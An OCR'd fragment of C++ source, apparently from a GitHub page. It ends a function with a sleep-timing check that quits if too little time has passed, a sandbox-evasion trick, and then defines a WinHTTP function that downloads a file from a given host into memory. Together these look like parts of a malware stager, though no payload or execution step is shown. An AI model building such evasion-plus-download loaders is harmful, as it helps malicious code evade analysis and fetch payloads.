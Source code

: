 ```
	if ((tock - tick) < 4500)
		exit(0);
}

std::vector<BYTE> Download(LPCWSTR baseAddress,int port,LPCWSTR filename)
{
    HINTERNET hSession = WinHttpOpen(
        NULL,
        WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY,
        WINHTTP_NO_PROXY_NAME,
        WINHTTP_NO_PROXY_BYPASS,
        0);

    HINTERNET hConnect = WinHttpConnect(
        hSession,
        baseAddress,
        port,
        0);


    // create request handle
    HINTERNET hRequest = WinHttpOpenRequest(
        hConnect,
        L"GET",
        filename,
        NULL,
        WINHTTP_NO_REFERER,
        WINHTTP_DEFAULT_ACCEPT_TYPES,
        0);

    WinHttpSendRequest(
        hRequest,
        WINHTTP_NO_ADDITIONAL_HEADERS,
        0,
        WINHTTP_NO_REQUEST_DATA,
        0,
        0,
        0);

    WinHttpReceiveResponse(
        hRequest,
        NULL);

    std::vector<BYTE> buffer;
    DWORD bytesRead = 0;

    do {

        BYTE temp[4096]{};
        WinHttpReadData(hRequest, temp, sizeof(temp), &bytesRead);

        if (bytesRead > 0) {
            buffer.insert(buffer.end(), temp, temp + bytesRead);
        }

    } while (bytesRead > 0);

    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);

    return buffer;
}
```